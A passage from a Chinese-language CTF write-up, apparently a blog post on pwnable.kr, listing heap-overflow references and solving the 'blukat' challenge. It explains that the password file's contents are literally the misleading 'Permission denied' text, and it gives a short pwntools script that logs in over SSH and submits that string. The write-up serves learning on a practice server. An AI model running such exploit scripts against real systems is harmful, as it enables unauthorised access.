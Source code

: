 ```python
```



### 参考资料：

https://bbs.pediy.com/thread-247883.htm

[https://introspelliam.github.io/2017/06/26/0day/%E5%A0%86%E6%BA%A2%E5%87%BA%E5%88%A9%E7%94%A8%EF%BC%88%E4%B8%8A%EF%BC%89%E2%80%94%E2%80%94DWORD-SHOOT/](https://introspelliam.github.io/2017/06/26/0day/堆溢出利用（上）——DWORD-SHOOT/)

https://www.cnblogs.com/p4nda/p/7172104.html

https://blog.csdn.net/Apollon_krj/article/details/51302859

## 0x14 blukat

好绝一题

分析源码发现没有溢出点，难道真的只能爆破password?

然后ls -al 看了一下

```
blukat@prowl:~$ ls -al
total 36
drwxr-x---   4 root blukat     4096 Aug 16  2018 .
drwxr-xr-x 116 root root       4096 Nov 12 21:34 ..
-r-xr-sr-x   1 root blukat_pwn 9144 Aug  8  2018 blukat
-rw-r--r--   1 root root        645 Aug  8  2018 blukat.c
dr-xr-xr-x   2 root root       4096 Aug 16  2018 .irssi
-rw-r-----   1 root blukat_pwn   33 Jan  6  2017 password
drwxr-xr-x   2 root root       4096 Aug 16  2018 .pwntools-cache
```

可以看到 password是可读的。。。。。

但是这个回显导致一开始根本没去想。。。。

```bash
blukat@prowl:~$ cat password
cat: password: Permission denied #一般是权限不足的正常回显。。。。
```

后来发现password是可以scp下下来的，也就是说password里面就是这个字符串。。。。

输入即可

**Exp**

```
#coding=utf-8
from pwn import *
context(arch="amd64",os="Linux",log_level="DEBUG")

shell = ssh(host="pwnable.kr",user="blukat",port=2222,password="guest")

shell.download_file("./password")

io=shell.run("./blukat")

io.sendlineafter("guess the password!","cat: password: Permission denied")
io.interactive()
```

